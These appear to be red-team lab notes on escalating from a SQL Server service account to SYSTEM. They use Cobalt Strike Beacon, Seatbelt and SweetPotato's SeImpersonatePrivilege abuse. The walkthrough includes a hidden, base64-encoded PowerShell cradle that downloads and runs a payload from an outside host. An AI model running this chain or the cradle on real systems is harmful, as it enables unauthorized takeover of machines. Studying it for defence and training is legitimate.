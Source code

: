 **How to:**

```
beacon> getuid
[*] You are NT Service\MSSQLSERVER

beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe TokenPrivileges

====== TokenPrivileges ======

Current Token's Privileges

                SeAssignPrimaryTokenPrivilege:  DISABLED
                     SeIncreaseQuotaPrivilege:  DISABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                       SeImpersonatePrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeCreateGlobalPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                SeIncreaseWorkingSetPrivilege:  DISABLED

[*] Completed collection in 0.037 seconds
```

### At a high level

This privilege allows the user to impersonate a token that it's able to get a handle to.

However, since this account is not a local admin, it can't just get a handle to a higher-privileged process (e.g. `SYSTEM`) already running on the machine.

A strategy that many hackers have come up with is to force a `SYSTEM` service to authenticate to a rogue service that the attacker creates and thus has control over.

This rogue service is then able to impersonate the `SYSTEM` service while it is trying to authenticate.

[**SweetPotato**](https://github.com/CCob/SweetPotato) **has a collection of these various techniques which can be executed via Beacon's `execute-assembly` command:**

```
beacon> execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGMAJwApAA=="

SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
  EfsRpc built on EfsPotato by @zcgonvh and PetitPotam by @topotam
[+] Attempting NP impersonation using method PrintSpoofer to launch C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[+] Triggering notification on evil PIPE \\sql-1/pipe/b888d569-b66e-4280-b8c5-995afbb9b02c
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

beacon> connect localhost 4444
[+] established link to child beacon: 10.10.120.25
```
